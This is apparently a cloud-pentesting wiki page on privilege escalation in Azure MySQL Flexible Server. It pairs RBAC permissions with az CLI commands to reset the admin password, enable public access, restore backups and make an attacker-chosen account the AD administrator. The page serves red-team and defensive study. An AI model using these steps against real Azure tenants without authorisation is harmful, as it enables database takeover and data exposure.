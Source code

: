 # Az - MySQL Database Privesc

## MySQL Database Privesc
For more information about SQL Database check:

[[../az-services/az-mysql.md]]

### `Microsoft.DBforMySQL/flexibleServers/read` && `Microsoft.DBforMySQL/flexibleServers/write`

With this permission, you can create, update, or delete MySQL Flexible Server instances on Azure. This includes provisioning new servers, modifying existing server configurations, decommissioning servers or changing the admins user's password.

```bash
az mysql flexible-server create \
    --name <ServerName> \
    --resource-group <ResourceGroupName> \
    --location <Location> \
    --admin-user <AdminUsername> \
    --admin-password <AdminPassword> \
    --sku-name <SkuName> \
    --storage-size <StorageSizeInGB> \
    --tier <PricingTier> \
    --version <MySQLVersion>
```

For example, this permissions allow changing the MySQL password, usefull of course in case that MySQL authentication is enabled.

```bash
az mysql flexible-server update \
    --resource-group <resource_group_name> \
    --name <server_name> \
    --admin-password <password_to_update>
```

Additionally it is necesary to have the public access enabled if you want to access from a non private endpoint, to enable it:

```bash
az mysql flexible-server update --resource-group <resource_group_name> --server-name <server_name> --public-access Enabled
```

### `Microsoft.DBforMySQL/flexibleServers/read`, `Microsoft.DBforMySQL/flexibleServers/write`, `Microsoft.DBforMySQL/flexibleServers/backups/read`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

With this permissions you can restore a MySQL server from a backup:

```bash
az mysql flexible-server restore \
    --resource-group <resource_group_name> \
    --name <restore_server_name> \
    --source-server <server_name> \
    --yes
```

### `Microsoft.DBforMySQL/flexibleServers/read`, `Microsoft.DBforMySQL/flexibleServers/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`, `Microsoft.DBforMySQL/flexibleServers/administrators/write` && `Microsoft.DBforMySQL/flexibleServers/administrators/read`

With this permission, you can configure Azure Active Directory (AD) administrators for a MySQL Flexible Server. This can be exploited by setting oneself or another account as the AD administrator, granting full administrative control over the MySQL server. It's important that the flexible-server has a user assigned managed identities to use.

```bash
az mysql flexible-server ad-admin create \
    --resource-group <ResourceGroupName> \
    --server-name <ServerName> \
    --display-name <ADAdminDisplayName> \
    --identity <IdentityNameOrID> \
    --object-id <ObjectID>
```

